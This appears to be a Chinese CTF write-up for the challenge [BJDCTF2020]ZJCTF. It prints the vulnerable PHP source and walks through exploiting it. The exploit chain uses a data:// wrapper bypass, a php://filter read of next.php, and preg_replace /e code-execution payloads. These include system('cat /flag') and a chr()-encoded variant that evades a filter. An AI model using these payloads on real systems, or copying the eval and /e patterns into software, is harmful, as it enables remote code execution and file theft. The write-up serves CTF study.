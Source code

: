 # [BJDCTF2020]ZJCTF，不过如此 preg_replace /e模式漏洞

**目录**

[TOC]



```php
<?php
 
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
 
    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

直接看看代码

首先 text file获取参数

判断 text为空 和 读取 text的文件内容 并且要为 I have a dream

这里可以使用data伪协议绕过 让 text识别到 I have a dream  
本地测试一下就知道了



<img src="https://i-blog.csdnimg.cn/blog_migrate/44ed926afbea1ca9793c78b5039946e1.png" alt="" style="max-height:277px; box-sizing:content-box;" />


通过 data获取 I have a dream 得到该数据 这样 就可以绕过判断

然后文件包含 提示我们 next.php

include很显然就是使用伪协议 我们直接php://来读取

```cobol
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/831504cba907851ae61c2ab87abe1c50.png" alt="" style="max-height:207px; box-sizing:content-box;" />


解密

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;
访问期间全局保存 id
 
 
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
这里很关键
 
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}
将get的值 作为 re->str类型  
 
function getFlag(){
	@eval($_GET['cmd']);
}
执行命令
```

我们看看其中关键的内容

### preg_replace的/e模式

这里主要是使用了 prg_replace的危险参数 /e

可执行参数

就可以将 **第二个参数** 作为命令执行

所以上面其实 就是匹配

```cobol
'/(' . $re . ')/ei',    'strtolower("\\1")',
 
 
就是 eval(strtolower("\\1"))
 
但是 \\1 在正则中存在自己的作用
 
其实就是匹配第一项
 
这里给出例子
 
 preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
 
regex是我们的参数值 即 get的名称  value是传入的参数
 
.*=phpinfo()
 
 
所以就变为了
 
 preg_replace('/(.*)/ei', 'strtolower("\\1")',phpinfo());
 
但是这里是无法执行phpinfo()的
```

### 为什么要变为 {${phpinfo()}}

首先我们要知道

```php
$a=hello
 
$$a=world   
 
这里相当于 
 
$hello=world
 
 
所以
 
echo $a $hello
 
为
 
hello world
```

我们接着理解一下

```scss
${phpinfo()}
 
执行完会变为 ${1} 因为 phpinfo()通过var_dump返回的是1
 
所以strtolower 变为 strtolower({${1}})
 
接着变为 strtolower({null}) 
 
```

```cobol
这里还存在一个问题
 
如果我们输入 ?.*
 
作为 get的名字的话
 
无法执行
 
因为对于get非法参数会自动替换为 _
 
但是我们如果输入 一个大写字母就可以实现 
 
例如 ?.* ---> ?_*
 
    ?\S* ---> ?\S*
 
使用了其他正则
 
就是 \S 匹配非空
```

这道题我们需要执行 getFlag

所以我们修改 参数

```scss
这里我们需要了解 主要是要让第二个参数 作为命令执行
 
preg_replace(正则,需要执行的命令,原本的值)
 
我们现在需要
 
strtolower("\1")为我们的"原本的值"来作为命令执行
 
而strtolower("\1")要为命令 就需要原本的值是命令
 
而我们需要通过${phpinfo()}直接执行 phpinfo()
 
这里执行完phpinfo() 就会变为strtolower("${phpinfo()}")-->strtolower("${1}")-->null
```

这里说太多了 主要就是让第二个参数为 phpinfo即可

我们需要通过 ${}来解析phpinfo() 否则还是无法执行命令

```cobol
next.php?\S*={${getFlag()}}&cmd=system('cat /flag');
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/dd486c184aac15147b824f5cfde88432.png" alt="" style="max-height:111px; box-sizing:content-box;" />


这里flag就出来了

这里主要理解 ${phpinfo()}

我们不在意匹配后的字符串是什么

而是沟通过${}来直接解析phpinfo()

### 另一个方法

这里既然我们可以通过 第二个参数直接解析那我们直接替换为命令即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/e607040cb0c97ef1fd55d27ea4a92857.png" alt="" style="max-height:472px; box-sizing:content-box;" />


我们直接通过 system("cat /flag"); 看看能不能执行



<img src="https://i-blog.csdnimg.cn/blog_migrate/e2e914e958f00f9bc337813d4b3741bc.png" alt="" style="max-height:146px; box-sizing:content-box;" />


发现报错了 说明存在过滤

我们直接通过 chr拼接字符即可

```cobol
?\S*=${system(chr(99).chr(97).chr(116).chr(32).chr(47).chr(102).chr(108).chr(97).chr(103))}
 
 
system(cat /flag)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/55496ed3c1f300f4c5d28f4382a7ef62.png" alt="" style="max-height:203px; box-sizing:content-box;" />


执行成功

获得flag

### 版本

/e模式在php5.5.x版本已经弃用了，但是根据我实验，在5.6.9版本下，虽然会报错，但是还能够使用这个特性

7.0之后的版本就不能用

 [[BJDCTF2020]ZJCTF，不过如此_[bjdctf2020]zjctf,不过如此_Sk1y的博客-CSDN博客](https://blog.csdn.net/RABCDXB/article/details/115363699)
